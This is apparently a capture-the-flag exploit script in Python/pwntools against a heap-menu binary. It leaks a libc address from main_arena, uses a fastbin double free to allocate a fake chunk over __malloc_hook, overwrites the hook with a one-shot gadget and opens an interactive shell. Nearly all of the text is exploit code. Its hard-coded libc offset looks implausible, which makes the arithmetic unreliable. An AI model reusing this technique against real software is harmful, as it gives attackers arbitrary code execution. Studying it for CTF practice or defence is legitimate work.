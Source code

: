 ```

# Free the second chunk, which will bring the edge of the heap before the new chunk 0, thus effictively forgetting about Chunk 0
free(2)

# Allocate a new chunk that will move the libc address for main_arena+88 into the content 
alloc(0xf0)# Chunk 1
fill(1, 0xf0, '5'*0xf0)

# Print the contents of chunk 0, and filter out the main_arena+88 infoleak, and calculate the offsets for everything else
leak = u64(dump(0)[0:8])
#libc = leak - elf.symbols['__malloc_hook'] - 0x68
libc = leak - 0x216c549f28
system = libc + 0x4526a
malloc_hook = libc + elf.symbols['__malloc_hook']
free_hook = libc + elf.symbols['__free_hook']
fake_chunk = malloc_hook - 0x23
log.info("Leak is:        " + hex(leak))
log.info("System is:      " + hex(system))
log.info("Free hook is:   " + hex(free_hook))
log.info("Malloc hook is: " + hex(malloc_hook))
log.info("Fake chunk is:  " + hex(fake_chunk))
log.info("libc is:        " + hex(libc))

# Free the first chunk to make room for the double free/fastbin duplicaion
free(1)

# Allocate the next four chunks, chunk 5 will directly overlap with chunk 0 and both chunks will have the same pointer
alloc(0x10)# Chunk 1
alloc(0x60)# Chunk 2
alloc(0x60)# Chunk 4
alloc(0x60)# Chunk 5

# Commence the double free by freeing 5 then 0, and 4 in between to stop a crash
free(5)
free(4)
free(0)

# Allocate 2 chunks, fill in the chunk that was freed twice with the fake chunk, allocate that chunk again to add the fake chunk to the free list
alloc(0x60)# Chunk 4
alloc(0x60)# Chunk 5
fill(0, 0x60, p64(fake_chunk) + p64(0) + 'y'*0x50)
alloc(0x60)# Chunk 0

# Allocate the fake chunk, and write over the malloc hook with the One Shot Gadget
alloc(0x60)# Chunk 6
fill(6, 0x1b, 'z'*0x13 + p64(system))

# Trigger a Malloc call to trigger the malloc hook, and pop a shell
target.sendline('1\n1\n')
target.recvuntil("Size: ")

# Drop to an interactive shell to use the shell
target.interactive()
```
